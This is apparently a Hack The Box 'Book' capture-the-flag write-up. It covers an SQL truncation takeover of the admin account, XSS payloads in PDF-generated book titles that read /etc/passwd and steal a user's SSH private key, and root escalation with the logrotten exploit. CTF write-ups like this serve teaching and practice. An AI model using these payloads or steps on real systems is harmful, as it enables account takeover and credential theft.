# Book
## User
Nmap scan:
```
Nmap scan report for 10.10.10.176
Host is up (0.033s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
```
The nmap scan didn't find any other interesting ports so I first looked at the website. 
It has a login panel but you can also create an account, so I did that and logged in.

![](img/login.png)

There I found a List of books that didn't seem to interesting and a contact form to send the admin a message.
This also showed the Admins email, which I need if I want to log in as an admin.

![](img/contact.png)

At `http://10.10.10.176/collections.php` it's also possible to upload a Book (as a pdf), but I couldn't do anything with it yet.
So I decided to run `dirb` against the website and I found an admin login panel, but I could not log in there.
```
$ dirb http://10.10.10.176
---- Scanning URL: http://10.10.10.176/ ----
==> DIRECTORY: http://10.10.10.176/admin/ 
```

![](img/admin_login.png)

After trying all sorts of SQL-Injections I did some more research and found an article on [SQL Truncation Attacks](https://resources.infosecinstitute.com/sql-truncation-attack/) and decided to try that.
First I checked if the emails used to login also get truncated, so I created an account with a very long email.

![](img/create_account.png)
 
When I tried to login I got an error which it got truncated. I just have to find out by how much.
But because you have to enter a valid email to sign in I had to manually edit the POST request and after a few tries successfully logged in.
```
Request Data:
email=aaaaaaaaaaaaaaaaaaaa&password=a
```
Since it truncates after 20 characters I just had to add a few more to override the admin password:
```
Request Data:
name=Admin&email=admin@book.htb      test&password=admin
```
With this I was then able to log in on the admin login page. 
This unlocks a page where you can download a PDF with all the books in the library which also contains the books uploaded by users.

![](img/collection.png)


Since the PDF's are dynamically generated with input I can control, I can use that to my advantage.
[This article](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) helped me a lot with it. 
When uploading a PDF I entered some HTML into the `Book Title` field to check if it worked.

`<img src=x onerror=document.write('aaaa')>`

![](img/submission.png)

PDF:

![](img/first_pdf.png)


And it worked, so I tried reading a file, which also worked.
```
<script>
  x=new XMLHttpRequest;
  x.onload=function(){
    document.write(this.responseText)
  };
  x.open("GET","file:///etc/passwd");
  x.send();
</script> 
```

![](img/passwd.png)


Then I checked if the `.ssh/authorized_keys` file exists, as that might allow me to steal a SSH-Key.
```
<script>
  x=new XMLHttpRequest;
  x.onload=function(){
    document.write(this.responseText)
  };
  x.open("GET","file:///home/reader/.ssh/authorized_keys");
  x.send();
</script>
```

![](img/authorized_keys.png)


This also worked but the text was cut off, so I decreased the font size and stole the SSH-Key.
```
<script>
  x=new XMLHttpRequest;
  x.onload=function(){
    document.write('<p style="font-size: 2px">' + this.responseText + '</p>')
  };
  x.open("GET","file:///home/reader/.ssh/id_rsa");
  x.send();
</script>
```

![](img/id_rsa.png)


With that I was able to connect via SSH and get the user flag.
```
$ chmod 600 id_rsa
$ ssh reader@book.htb -i id_rsa

$ whoami
reader
```
## Root

After a bit of enumeration I found a suspicous service with [pspy](https://github.com/DominicBreuker/pspy) that gets executed regularly.
```
CMD: UID=0    PID=6108   | /usr/sbin/logrotate -f /root/log.cfg 
CMD: UID=0    PID=6107   | /bin/sh /root/log.sh
```
I checked if there were any known vulnerabilities and found [one that allowed for privilage escalation](https://github.com/whotwagner/logrotten/blob/master/logrotten.c) so I checked the 3 conditions.

`Logrotate needs to be executed as root`: 

Is fullfiled as I saw in pspy.

`The logpath needs to be in control of the attacker`: 

There is a `backups` folder that logrotate uses. 
As it is in `/home/reader/` I have full control over it.

`Any option(create,compress,copy,etc..) that creates a new file is set in the logrotate configuration.`: 

I can't read the configuration file as it is at `/root/log.cfg` but when I write anything into `/home/reader/backups/access.log` a new file is created. 
This means the option must be set in the config file.

Now that I know the conditions are fulfilled I can try to exploit it.
First I created a `logrotten.c` file with the code from the exploit.

Then I compiled it with gcc: `$ gcc -o logrotten logrotten.c` and created a payload `$ echo "cat /root/root.txt > /tmp/root" > payload`.

Finding the right payload and the right arguments for `logrotten` wasn't easy, but after a lot of experimenting and a machine reset I was able to get it to work. Now I just had to execute it and add something to the log in another terminal.
```
$ ./logrotten /home/reader/backups/access.log -p payload
Waiting for rotating /home/reader/backups/access.log...

$ echo a > access.log  // In other terminal

Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
```
After a few seconds the file appeared in the `/tmp` folder and I could read out the flag.



